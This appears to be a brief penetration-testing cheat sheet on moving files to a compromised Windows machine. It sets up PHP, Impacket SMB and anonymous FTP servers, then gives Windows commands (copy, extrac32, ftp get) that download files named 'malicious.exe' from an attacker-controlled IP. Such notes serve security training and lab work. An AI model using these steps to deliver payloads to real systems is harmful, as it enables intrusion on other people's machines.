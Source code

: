 # Run a basic PHP http serve
```
php -S 0.0.0.0:80					r
```

# SMB share:
## setup SMB sharefrom Impacket:
/opt/impacket/examples:
```
python smbserver.py ROPNOP /root/shells
```

## From Windows:
```
net view \\192.168.1.29
dir \\192.168.1.29\folder
copy \\192.168.1.29\folder\mailicious.exe
```

### OR:
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```

# Setup FTP server:
## install and start FTP server:
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
```
## create anonymous ftp with write access to your filesystem.
```
python -m pyftpdlib
python -m pyftpdlib --help
python3 -m pyftpdlib.ftpserver
```

## Download file from Windows:
```
C:\>ftp 192.168.1.29
username: anonymous
password: whatever
ftp> binary
ftp> get malicious.exe
ftp> bye
```
